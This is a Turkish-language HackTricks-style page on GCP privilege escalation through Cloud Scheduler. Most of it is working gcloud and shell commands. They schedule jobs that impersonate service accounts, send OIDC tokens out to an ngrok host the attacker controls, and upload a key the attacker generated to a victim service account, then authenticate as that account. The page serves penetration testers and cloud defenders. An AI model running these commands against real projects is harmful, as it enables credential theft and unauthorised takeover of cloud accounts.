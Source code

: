 # GCP - Cloud Scheduler Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Scheduler

Daha fazla bilgi için:

{{#ref}}
../gcp-services/gcp-cloud-scheduler-enum.md
{{#endref}}

### `cloudscheduler.jobs.create`, `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

Bu izinlere sahip bir saldırgan, **Cloud Scheduler**'ı **belirli bir Hizmet Hesabı olarak cron işlerini kimlik doğrulamak için** kullanabilir. Bir HTTP POST isteği oluşturarak, saldırgan, Hizmet Hesabı'nın kimliği altında çalıştırılacak eylemleri, örneğin bir Depolama bucket'ı oluşturmayı planlayabilir. Bu yöntem, **Scheduler'ın `*.googleapis.com` uç noktalarını hedefleme ve istekleri kimlik doğrulama yeteneğinden** yararlanarak, saldırganın basit bir `gcloud` komutu kullanarak doğrudan Google API uç noktalarını manipüle etmesine olanak tanır.

- **OAuth token başlığı ile `googleapis.com` üzerinden herhangi bir google API ile iletişim kurun**

Yeni bir Depolama bucket'ı oluşturun:
```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://storage.googleapis.com/storage/v1/b?project=<PROJECT-ID>' --message-body "{'name':'new-bucket-name'}" --oauth-service-account-email 111111111111-compute@developer.gserviceaccount.com --headers "Content-Type=application/json" --location us-central1
```
Yetki yükseltmek için, bir **saldırgan yalnızca hedef API'yi hedef alan bir HTTP isteği oluşturur ve belirtilen Hizmet Hesabını taklit eder.**

- **OIDC hizmet hesabı jetonunu dışa aktar**
```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```
HTTP yanıtını kontrol etmeniz gerekiyorsa, **çalıştırma günlüklerine bir göz atabilirsiniz**.

### `cloudscheduler.jobs.update`, `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

Önceki senaryoda olduğu gibi, **zaten oluşturulmuş bir zamanlayıcıyı güncellemek** ve token'ı çalmak veya eylemler gerçekleştirmek mümkündür. Örneğin:
```bash
gcloud scheduler jobs update http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```
Bir SA'ya özel bir anahtar yüklemek ve onu taklit etmek için başka bir örnek:
```bash
# Generate local private key
openssl req -x509 -nodes -newkey rsa:2048 -days 365 \
-keyout /tmp/private_key.pem \
-out /tmp/public_key.pem \
-subj "/CN=unused"

# Remove last new line character of the public key
file_size=$(wc -c < /tmp/public_key.pem)
new_size=$((file_size - 1))
truncate -s $new_size /tmp/public_key.pem

# Update scheduler to upload the key to a SA
## For macOS: REMOVE THE `-w 0` FROM THE BASE64 COMMAND
gcloud scheduler jobs update http scheduler_lab_1 \
--schedule='* * * * *' \
--uri="https://iam.googleapis.com/v1/projects/$PROJECT_ID/serviceAccounts/victim@$PROJECT_ID.iam.gserviceaccount.com/keys:upload?alt=json" \
--message-body="{\"publicKeyData\": \"$(cat /tmp/public_key.pem | base64 -w 0)\"}" \
--update-headers "Content-Type=application/json" \
--location us-central1 \
--oauth-service-account-email privileged@$PROJECT_ID.iam.gserviceaccount.com

# Wait 1 min
sleep 60

# Check the logs to check it worked
gcloud logging read 'resource.type="cloud_scheduler_job" AND resource.labels.job_id="scheduler_lab_1" AND resource.labels.location="us-central1"
jsonPayload.@type="type.googleapis.com/google.cloud.scheduler.logging.AttemptFinished"' --limit 10 --project <project-id> --format=json

## If any  '"status": 200'  it means it worked!
## Note that this scheduler will be executed every minute and after a key has been created, all the other attempts to submit the same key will throw a: "status": 400

# Build the json to contact the SA
## Get privatekey in json format
file_content=$(<"/tmp/private_key.pem")
private_key_json=$(jq -Rn --arg str "$file_content" '$str')

## Get ID of the generated key
gcloud iam service-accounts keys list --iam-account=victim@$PROJECT_ID.iam.gserviceaccount.com

# Create the json in a file
## NOTE that you need to export your project-id in the env var PROJECT_ID
## and that this script is expecting the key ID to be the first one (check the `head`)
export PROJECT_ID=...
cat > /tmp/lab.json <<EOF
{
"type": "service_account",
"project_id": "$PROJECT_ID",
"private_key_id": "$(gcloud iam service-accounts keys list --iam-account=scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | cut -d " " -f 1 | grep -v KEY_ID | head -n 1)",
"private_key": $private_key_json,
"client_email": "scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com",
"client_id": "$(gcloud iam service-accounts describe scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | grep oauth2ClientId | cut -d "'" -f 2)",
"auth_uri": "https://accounts.google.com/o/oauth2/auth",
"token_uri": "https://oauth2.googleapis.com/token",
"auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
"client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/scheduler-lab-1-target%40$PROJECT_ID.iam.gserviceaccount.com",
"universe_domain": "googleapis.com"
}
EOF

# Activate the generated key
gcloud auth activate-service-account --key-file=/tmp/lab.json
```
## Referanslar

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}

